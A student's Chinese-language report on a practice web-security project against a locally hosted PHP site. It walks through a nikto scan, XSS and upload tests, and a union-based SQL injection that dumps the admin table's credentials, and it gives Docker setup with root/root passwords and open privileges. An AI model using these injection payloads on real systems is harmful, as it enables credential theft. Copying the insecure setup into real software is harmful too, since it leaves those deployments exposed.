

- [李雅萱 —— 个人总结技术报告](#李雅萱--个人总结技术报告)
  - [对团队的贡献](#对团队的贡献)
  - [个人工作介绍](#个人工作介绍)
    - [漏洞探索](#漏洞探索)
      - [权限跨越漏洞](#权限跨越漏洞)
      - [文件上传漏洞](#文件上传漏洞)
      - [XSS漏洞](#xss漏洞)
      - [sql漏洞](#sql漏洞)
    - [漏洞破解](#漏洞破解)
    - [脚本编写](#脚本编写)
    - [镜像搭建](#镜像搭建)
  - [问题及解决](#问题及解决)
  - [总结与思考](#总结与思考)
  - [参考资料](#参考资料)
# 李雅萱 —— 个人总结技术报告
## 对团队的贡献
- 在靶场环境对各类漏洞进行探索。
- 成功发现、破解 `sql` 漏洞。
- 对 `sql` 漏洞编写自动化破解脚本，见 [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) [requirements.txt](https://github.com/Taaami/2022-summer-project/blob/main/requirements.txt) 。
- 搭建 `docker` 镜像环境，见 [docker](https://github.com/Taaami/2022-summer-project/tree/main/docker) 。
- 编写自动化脚本，快速搭建环境，见 [build.sh](https://github.com/Taaami/2022-summer-project/blob/main/build.sh) 。
- 编写 `README`，创建、整理小组 [项目仓库](https://github.com/Taaami/2022-summer-project) 。
- 录制演示视频，整理上传至某站 [演示视频](https://www.bilibili.com/video/BV16a411f7rV) 。
## 个人工作介绍
### 漏洞探索
#### 权限跨越漏洞
- 尝试登录 `admin` 权限，登陆页面试了万能密码和 `admin/admin` 都登陆失败(此时路径为 `/project/user/login.php` )。
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  
- 与原有登录页面相同，但尝试了 `admin` 和万能密码还是无法登录。
  
  
#### 文件上传漏洞
- 登录之前注册的一个测试账号，点击编辑发现可以上传图像。
- 查看源代码，可以看到图片的存储路径。
  
  
- 将存储路径的 `url` 直接输入，可以看到原图片。
  
  
- 如果上传 `php` 文件（木马等），可以直接访问。
  
  
- 尝试上传 `php` 等类型文件，失败，提示上传 `jpg` 格式文件。
  
  
#### XSS漏洞
- 看到搜索框，联想到 `js` 代码注入。
- 测试语句为 `<script>alert(123)</script>` 。
- 没有弹窗，说明没有xss漏洞。
  
  
#### sql漏洞
- 看到留言板的搜索框，想到 `sql` 注入。
  
  
- 尝试输入 `'` ，根据回显判断，此框对语句进行了过滤，直接 `ERROR` 。
  
  
### 漏洞破解
- 此时关注点还在留言搜索框，也就是 `search.php` 。
- 当输入一个 `'` 后页面无回显，说明执行了sql查询语句。

  
- 发现通过构造 `url` 可以实现数据库的查询，接下来判断它的字段数。
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了 `5` 以后，页面没有正常显示查询结果，所以有 `4` 个字段。
  
  
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  
- `admin/adminpwd` 尝试登录管理员用户，但是失败了。
  >此时路径为 `project/user/login.php`

  
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  
- 与原有登录页面相同，尝试 `admin/adminpwd` 登录管理员用户。
### 脚本编写
> [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 思路与手动破解相同，但可适应不同字段数、回显点等情况下的注入。
- 根据单引号判断出存在 `sql注入` 漏洞后，脚本思路如下：
    ```mermaid
    graph TD
    A[开始注入]-->B(判断字段数)
    B-->C(查看回显点)
    C-->D(在回显处爆表名)
    D-->E(在回显处爆列名)
    E-->F(输出admin_id:admin_name:admin_pass)
    F-->G(判断加密算法,解密得到密码)
    ```
- 脚本输出结果
  
  
**脚本有详细注释，此处不再赘述。**
### 镜像搭建
- 原有网站环境为 `BuildIt` 组搭建，在此基础上我和罗舒文同学完成了 `docker` 部署。
  - `dockerfile`
    ```docker
    FROM s1riu5/lamp:7.2
    COPY project.sql /docker-entrypoint-initdb.d/
    COPY src/ /var/www/html/demo
    RUN chmod -R 777 /var/www/html
    ```
  - `config.php`
    ```php
    <?php
    //链接数据库
    $host = '127.0.0.1';//本机地址
    $username = 'root';//账户名
    $password = 'root';//密码
    $database = 'project';//数据库名
    $dbc = mysqli_connect($host, $username, $password, $database);//创建数据库对象
    if (!$dbc)
    {
      echo mysql_error();
    }
    //启用session
    session_start();
    //根目录
    $basedir = '/demo'; 
    //载入函数库
    include_once('lib.php');
    ?>
    ```
  - `project.sql`
    > 测试环境在本地，部署 `docker` 后出现权限和登录问题。
    ```sql
    USE mysql;
    UPDATE mysql.user SET authentication_string=password('root') WHERE user='root'; # 解决随机密码活空密码的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root'; # 解决root远程登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    flush PRIVILEGES; # 更新数据库
    ```
- 为方便使用者快速搭建环境，编写了 `build.sh` 一键部署。
  ```shell
  #!/bin/bash
  sudo apt-get install docker.io
  cd docker/demo
  sudo docker build -t demo:v3 .
  sudo docker run -d --name test -p 9000:80 demo:v3
  sudo docker ps
  ```
  ```shell
  # 执行脚本，可能需要较长时间拉取镜像
  sudo bash build.sh
  # 浏览器访问127.0.0.1:9000/demo
  ```
## 问题及解决
## 总结与思考
## 参考资料
